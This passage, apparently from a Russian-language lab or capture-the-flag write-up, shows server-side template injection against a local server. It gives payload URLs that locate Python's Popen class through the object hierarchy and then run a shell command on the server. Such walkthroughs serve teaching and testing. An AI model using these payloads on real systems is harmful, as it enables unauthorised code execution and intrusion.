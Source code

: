 Вот мы и нашли возможность исполнения произвольного кода на сервере. Раскручиваем атаку. Для начала узнаем, под каким номером скрывается объект **Popen()**, который позволяет исполнять код:

```sh
http://127.0.0.1:1337/{{''.__class__.mro()[1].__subclasses__()[273]}}
```

![ScreenShot](screenshots/7.png)

Собственно, само исполнение кода на стороне сервера:

```sh
http://localhost:1337/{{''.__class__.mro()[1].__subclasses__()[273]('ls -la',shell=True,stdout=-1).communicate()[0].strip()}}
```

![ScreenShot](screenshots/8.png)
